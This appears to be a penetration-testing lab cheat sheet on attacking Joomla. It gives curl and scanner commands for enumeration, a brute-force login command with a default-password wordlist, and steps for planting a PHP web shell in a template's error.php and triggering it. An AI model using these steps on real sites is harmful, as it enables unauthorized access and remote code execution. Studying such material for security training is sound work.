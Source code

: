 # Joomla - Discovery & Enumeration
## Discovery/Footprinting
```
curl -s http://dev.inlanefreight.local/ | grep Joomla
```
```
curl -s http://dev.inlanefreight.local/README.txt | head -n 5
```
```
curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -
```
```
The cache.xml file can help to give us the approximate version. It is located at plugins/system/cache/cache.xml
```

## Enumeration
https://github.com/SamJoan/droopescan
```
droopescan scan joomla --url http://dev.inlanefreight.local/
```

https://github.com/drego85/JoomlaScan
```
python2.7 joomlascan.py -u http://dev.inlanefreight.local
```

# Attacking Joomla
## Brute force the login
https://github.com/ajnik/joomla-bruteforce
```
sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```

## Abusing Built-In Functionality
Using the credentials that we obtained, we can log in to the target backend at http://dev.inlanefreight.local/administrator.
1. Click on Templates on the bottom left under Configuration 
2. Choose protostar under the Template column header. This will bring us to the Templates: Customize page 
3. Let's choose the error.php page. We'll add a PHP one-liner to gain code execution as follows: `system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);`
4. Save & Close at the top and confirm code execution using cURL
```
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id
```

## Leveraging Known Vulnerabilities
`Joomla 3.9.4`
https://www.exploit-db.com/exploits/46710